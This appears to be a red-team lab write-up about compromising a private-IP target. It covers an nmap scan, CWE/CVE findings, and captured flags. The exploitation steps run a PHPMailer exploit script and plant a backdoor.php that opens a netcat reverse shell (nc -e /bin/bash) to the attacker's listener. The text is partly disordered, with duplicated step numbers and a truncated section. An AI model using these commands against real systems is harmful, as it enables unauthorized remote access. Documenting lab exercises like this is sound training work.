 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.115

![1](/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** Exposure of sensitive Information to an unauthorized actor | The product exposes sensitive Information to an actor that is not explicitly authorized to have access | Allowing sensitive information to be compromised so easily can result in a breach that can have significant effects on your business
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing an bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1:**  `flag1{a2c1f66d28051bd3a5874b5b6r43e21}`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    Sensitive information was accessed without authorization. The vendor directory has no access restrictions and is accessible through the browser. It includes several sensitive files that leak information about the services in use, their versions, and the critical data `flag1{a2c1f66d28051bd3a5874b5b6r43e21}` in the PATH file.

    **Vendor Directory Index view from the browser**
     
    ![1](/Images/4/6.PNG) 

    PATH File: **Flag1**

    ![2](/Images/4/7.PNG)        
     
    **PHPMAILER version**

    ![4](/Images/4/9.PNG)    

---

**CWE-548** Exposure of information through directory browsing


    ![7](/Images/4/7.PNG)  

    4. `searchsploit phpmailer`

     ![8](/Images/4/8.PNG)  

    4. `sudo chmod 777 exploit.sh`

    5. `./exploit.sh`

    6. In kali: `nc -lnvp 4444`

    7. `192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 -e /bin/bash`

    ![14](/Images/1/14.png)

    8. `Find /var/www -type f -name .flag*’`

    9. Go to browser and put `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`

    ![15](/Images/1/15.png)